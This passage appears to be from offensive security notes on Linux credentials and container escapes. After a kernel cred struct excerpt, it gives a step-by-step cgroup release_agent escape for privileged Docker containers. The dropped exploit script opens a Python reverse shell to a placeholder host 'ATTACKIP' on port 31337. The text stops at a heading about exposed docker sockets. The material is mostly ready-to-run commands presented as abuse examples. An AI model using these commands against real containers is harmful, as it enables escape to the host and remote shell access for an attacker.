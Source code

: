 ```c
#ifdef CONFIG_SECURITY
	void		*security;	/* LSM security */
#endif
	struct user_struct *user;	/* real user ID subscription */
	struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */
	struct ucounts *ucounts;
	struct group_info *group_info;	/* supplementary groups for euid/fsgid */
	/* RCU deletion */
	union {
		int non_rcu;			/* Can we skip RCU deletion? */
		struct rcu_head	rcu;		/* RCU deletion hook */
	};
} __randomize_layout;
```


## [](#header-2)Container escape abuse examples

### [](#header-3) If privileged mode, then maybe:
[code](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.)

```bash
> capsh --print 
Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid
cap_sys_admin - allows mounting fs

> mkdir /tmp/expl
> mount -t cgroup -o rdma cgroup /tmp/expl
> mkdir /tmp/expl/x

> echo 1 > /tmp/expl/x/notify_on_release

> host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

> echo "$host_path/exploit" > /tmp/expl/release_agent

> cat > /exploit << EOF
#!/bin/bash
export RHOST="ATTACKIP";export RPORT=31337;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
EOF

> chmod a+x /exploit

> sh -c "echo \$\$ > /tmp/expl/x/cgroup.procs"
```

### [](#header-3) If docker socket is exposed:
